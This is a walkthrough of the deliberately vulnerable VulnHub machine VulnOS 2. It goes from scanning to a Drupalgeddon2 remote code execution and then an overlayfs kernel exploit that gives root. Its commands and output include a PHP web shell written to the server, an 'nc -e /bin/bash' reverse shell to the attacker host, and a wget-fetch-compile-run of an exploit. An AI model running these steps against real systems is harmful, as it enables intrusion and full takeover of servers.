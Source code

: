 ```yaml
---
title: VulnHub - VulnOS 2
author: ret2x
date: 2021-11-30 10:30:12 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, drupal, rce]
image:
    path: /assets/images/vulnos2/front.png
---
```


**Description:** A linux machine hosting a version of Drupal vulnerable to Remote Code Execution. A kernel exploit allowed gaining root privileges.

**Author:** c4b3rw0lf

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/vulnos-2,147/](https://www.vulnhub.com/entry/vulnos-2,147/)

## Information Gathering
### Host Discovery

A ping scan was performed to locate the target host, the script you can find it [here](https://github.com/ret2x-tools/ping-scan.git).

```console
root@kali:~$ ping-scan.py -r 192.168.179.0/24
192.168.179.172 is up
```


### Port Scanning

A full TCP/UDP scan was performed to detect open ports with unicornscan.

```console
root@kali:~$ us -mT -Iv 192.168.179.172:a -r 3000 -R 3  && us -mU -Iv 192.168.179.172:a -r 3000 -R 3
...
TCP open                     ssh[   22]         from 192.168.179.172  ttl 64 
TCP open                    http[   80]         from 192.168.179.172  ttl 64 
TCP open                     irc[ 6667]         from 192.168.179.172  ttl 64
```


### Service Enumeration

An aggressive scan was performed to detect more information about the open ports.

```console
root@kali:~$ nmap -n -v -A -p22,80,6667 192.168.179.172 -oN nmap/service-enum.txt
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
```

### Web Enumeration

The web page contains a link called **website**, we click on it.

![](/assets/images/vulnos2/screenshot-1.png)

Another web page is displayed on the screen, looking at the source it was possible to detect that it's a Drupal 7.

![](/assets/images/vulnos2/screenshot-2.png)

![](/assets/images/vulnos2/screenshot-3.png)

## Exploitation
### Remote Code Execution

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.


We download the exploit and install the dependencies.

```console
root@kali:~$ git clone https://github.com/dreadlocked/Drupalgeddon2
root@kali:~$ cd Drupalgeddon2 
root@kali:~/Drupalgeddon2$ gem install highline
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Done installing documentation for highline after 10 seconds
1 gem installed
```

We run the exploit adding the target URL as parameter.

```console
root@kali:~/Drupalgeddon2$ ./drupalgeddon2.rb http://192.168.179.172/jabc/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.179.172/jabc/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.179.172/jabc/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.179.172/jabc/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.179.172/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] WARNING: Could be a false-positive [1-1], as the file could be reported to be missing
[!] MISSING: http://192.168.179.172/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] MISSING: http://192.168.179.172/jabc/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://192.168.179.172/jabc/includes/database.inc    (HTTP Response: 404)
[+] Header : v7 [X-Generator]
[+] Found  : http://192.168.179.172/jabc/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://192.168.179.172/jabc/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OZVTAGPS
[+] Result : OZVTAGPS
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.179.172/jabc/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.179.172/jabc/shell.php' -d 'c=hostname'
VulnOSv2>> whereis nc
nc: /bin/nc /bin/nc.traditional /usr/share/man/man1/nc.1.gz
```

As we can see the exploitation was successful, then we set up a netcat listener on port 443 and execute the following netcat instruction:

```console
VulnOSv2>> nc 192.168.179.1 443 -e /bin/bash
```

We got a shell with low privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.172] 49471
python -c "import pty; pty.spawn('/bin/bash')"
www-data@VulnOSv2:/var/www/html/jabc$
```

This kernel version is vulnerable to the following exploit.

```console
www-data@VulnOSv2:/var/www/html/jabc$ cat /proc/version
cat /proc/version
Linux version 3.13.0-24-generic (buildd@komainu) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014
```

```console
root@kali:~$ searchsploit ubuntu 3.13.0                                                                                       
----------------------------------------------------------------------------------------------------------- ---------------------------
 Exploit Title                                                                                             |  Path                   
----------------------------------------------------------------------------------------------------------- ---------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation       | linux/local/37292.c
...
----------------------------------------------------------------------------------------------------------- ---------------------------
```

## Privilege Escalation
### Kernel Exploit

The overlayfs implementation in the linux (aka Linux kernel) package before3.19.0-21.21 in Ubuntu through 15.04 does not properly check permissionsfor file creation in the upper filesystem directory, which allows localusers to obtain root access by leveraging a configuration in whichoverlayfs is permitted in an arbitrary mount namespace.

We copy the exploit to our current directory and start a web server with python.

```console
root@kali:~$ searchsploit -m linux/local/37292.c

root@kali:~$ python3 -m http.server 80
```

On the target machine we download it, compile it and execute it. As we can see now we are root.

```console
www-data@VulnOSv2:/tmp$ wget 192.168.179.1/37292.c -O ofs.c

www-data@VulnOSv2:/tmp$ gcc ofs.c -o ofs
gcc ofs.c -o ofs
www-data@VulnOSv2:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

# cd /root
cd /root
# ls
ls
flag.txt
# cat flag.txt
cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```


